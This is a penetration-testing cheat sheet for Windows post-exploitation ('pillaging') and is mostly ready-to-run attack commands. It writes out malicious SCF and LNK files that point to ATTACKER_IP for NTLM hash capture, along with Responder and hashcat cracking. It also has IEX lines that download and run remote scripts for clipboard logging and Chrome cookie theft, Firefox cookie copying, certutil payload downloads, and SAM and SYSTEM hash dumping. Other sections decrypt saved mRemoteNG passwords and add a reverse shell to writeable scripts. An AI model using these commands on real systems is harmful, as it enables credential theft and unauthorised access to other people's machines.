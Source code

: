 # ✅ Interacting with Users & Pillaging (Cheat Sheet)

---

## 🎯 Quick Wins
- [ ] **Capture Network Traffic** → Wireshark / tcpdump / net-creds
- [ ] **Monitor Command Lines** → Detect creds in scheduled tasks
- [ ] **SCF / LNK Attack on File Shares** → Capture NTLM hashes
- [ ] **Clipboard Logging** → Capture copy-pasted passwords
- [ ] **Cookie Theft** → Firefox/Chrome SQLite DB + SharpChromium
- [ ] **Key Backup Targets** → .vhd, .vhdx, .vmdk for SAM/SYSTEM
- [ ] **Abuse Weak Permissions** → Writeable scripts in C:\Scripts
- [ ] **Living Off The Land Binaries (LOLBAS)** → certutil, rundll32
- [ ] **Backup Abuse** → Extract hashes or config files
- [ ] **Mimikatz / LaZagne** → Credential dump

---
## ✅ Check Netstat

```powershell
# check for interesting services\ports 
netstat -anot
```

---
## ✅ Public Exploits

> they are already in my tools

```c
# Step 1 - Identify the system
systeminfo
# Step 2 - Get hte hostfixID
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }
```

```c
https://github.com/sickn3ss/exploits/tree/master/CVE-2023-29360/x64/Release
https://github.com/sickn3ss/exploits/
```
## ✅ Network Traffic Capture
```powershell
# If Wireshark installed and Npcap not restricted
# Capture cleartext creds (FTP, HTTP)
# On attack machine
tcpdump -i eth0 -w capture.pcap
net-creds -i capture.pcap
```
## ✅ Monitor Process Command Lines
```c
# Detect creds passed via scheduled tasks or scripts
while($true){
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object $process $process2
}
```
> Example finding:
```c
net use T: \\sql02\backups /user:domain\sqlsvc My4dm1nP@s5w0Rd
```
## ✅ SCF / LNK File Attack for NTLM Hashes
```c
# Malicious SCF
[Shell]
Command=2
IconFile=\\ATTACKER_IP\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```
> Run Responder:
```c
sudo responder -wrf -v -I tun0
```
> Crack NTLMv2 hash:
```c
hashcat -m 5600 hash.txt rockyou.txt
```
## ✅ Generate Malicious .LNK (PowerShell)
```c
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\ATTACKER_IP\@pwn.png"
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Save()
```
## ✅ Clipboard Logger
```c
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
Invoke-ClipboardLogger
```
> Output example:
```c
https://portal.azure.com
Administrator@domain.com
Sup3rP@ssword123
```
## ✅ Cookie Theft (Firefox)
```c
# Copy SQLite DB
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```
> Extract Slack cookie:
```c
python3 cookieextractor.py --dbpath cookies.sqlite --host slack --cookie d
```
## ✅ Cookie Theft (Chrome)
```c
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
Invoke-SharpChromium -Command "cookies slack.com"
```
## ✅ Pillaging – Interesting Locations

- [ ] Browser Data → Chrome/Firefox profiles
- [ ] Password Managers → KeePass, mRemoteNG (confCons.xml)
- [ ] Config Files → web.config, appsettings.json
- [ ] SSH Keys → id_rsa
- [ ] Backup Files → .vhd, .vhdx, .vmdk
## ✅ mRemoteNG Credential Decryption
```c
# Extract password
python3 mremoteng_decrypt.py -s "<ENCRYPTED_PASSWORD>"
# If master password exists
python3 mremoteng_decrypt.py -s "<ENCRYPTED_PASSWORD>" -p admin
```
## ✅ Mount Virtual Disks & Extract Hashes
```c
# Linux
guestmount -a disk.vmdk -i --ro /mnt/vmdk
guestmount --add backup.vhdx --ro /mnt/vhdx/ -m /dev/sda1

# Dump SAM & SYSTEM
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```
## ✅ LOLBAS: File Download via certutil
```c
certutil.exe -urlcache -split -f http://ATTACKER_IP/file.exe file.exe
```
> Encode/Decode:
```c
certutil.exe -encode input.txt encoded.txt
certutil.exe -decode encoded.txt output.txt
```
## ✅ CVE-2019-1388 Exploit

```c
- Old signed executable → hhupd.exe
- Run as Admin → Open Certificate → Click hyperlink → Browser as SYSTEM
- Breakout: Save As → Type C:\Windows\System32\cmd.exe
```
## ✅ Scheduled Task Enumeration
```c
# IN CMD
schtasks /query /fo LIST /v

# In Powershell
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
## ✅ Abusing Writeable Scripts
```c
accesschk64.exe /accepteula -s -d C:\Scripts\
# Append reverse shell or beacon
```
## ✅ Mount & Extract Backup Systems
```c
- Backup software like restic, Veeam, Windows Backup
- Abuse backup creds (usually local admin on all systems)
- Restore snapshots → Extract SAM & SYSTEM → Dump hashes
```
## ✅ Key Tools

```
- Responder / Inveigh → Capture NTLM hashes
- net-creds → Extract creds from PCAP
- SharpChromium → Cookie theft
- Invoke-Clipboard → Clipboard monitoring
- PowerUp.ps1 / WinPEAS → PrivEsc checks
- secretsdump.py → Extract local hashes
```
